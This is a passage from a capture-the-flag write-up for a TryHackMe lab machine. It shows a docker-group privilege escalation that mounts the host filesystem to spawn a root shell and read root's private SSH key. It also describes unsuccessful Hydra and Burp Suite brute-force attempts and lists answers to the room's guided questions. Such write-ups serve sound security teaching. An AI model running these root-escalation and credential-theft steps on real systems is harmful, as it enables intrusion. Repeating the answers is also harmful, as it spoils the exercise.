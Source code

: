 - The following syntax will show what docker image is running on the device, which will allow us to edit the above command to correctly gain root privileges:
```
docker ps -a
```
***Note: This shows all running docker processes.***

- The output is as follows:
```bash
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                     PORTS               NAMES
7beaaeecd784        bash                "docker-entrypoint.s\u2026"   4 years ago         Exited (130) 4 years ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s\u2026"   4 years ago         Exited (127) 4 years ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s\u2026"   4 years ago         Exited (127) 4 years ago                       boring_volhard
```

- As we can see above, the machine is using a bash image. Therefore, the correct command to spawn a root shell would be:
```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

- Once we have root privileges, we can navigate to the `/root/.ssh` directory and use `cat id_rsa` to grab the private key for root. 

## Rabbit Holes
### Brute Forcing SSH Credentials with Hydra
- I had a hunch that the team specified on the landing page put what was likely to be their username to login to the partner portal. With that, I tried to use Hydra to use each of those usernames with a common credentials wordlist to brute force SSH and FTP. I attempted the usernames of `r00t` and `John`, since those are the username and name of the developer specified on the webpage respectively. 

### Sniper with Burp Suite
- I tried to use Sniper through Burp Suite once I found the `/partners.html` page by specifying `ultratech` as the username and selecting a long wordlist for passwords, but Burp Suite is so rate limited that it wasn't worth waiting for. I decided to do a little more looking instead, and found the two API routes. 

### Potential Username in Source Code
- After viewing the page source, we can see that there is a potential username to be used for authentication:

![Potential Email for Authentication 1](https://github.com/APSUCyberClub/TryHackMe-Writeups/assets/156336307/18208518-5be0-48f9-8f49-2c5c1b9cced0)



- This didn't turn out to be anything relevant. 

## THM Guided Questions and Answers
### It's Enumeration Time!
1. Which software is using the port 8081?
	1. Node.js
2. Which other non-standard port is used?
	1. 31331
3. Which software is using this port?
	1. Apache
4. Which GNU/Linux distribution seems to be used?
	1. Ubuntu
5. The software using the port 8081 is a REST API. How many of its routes are used by the web application?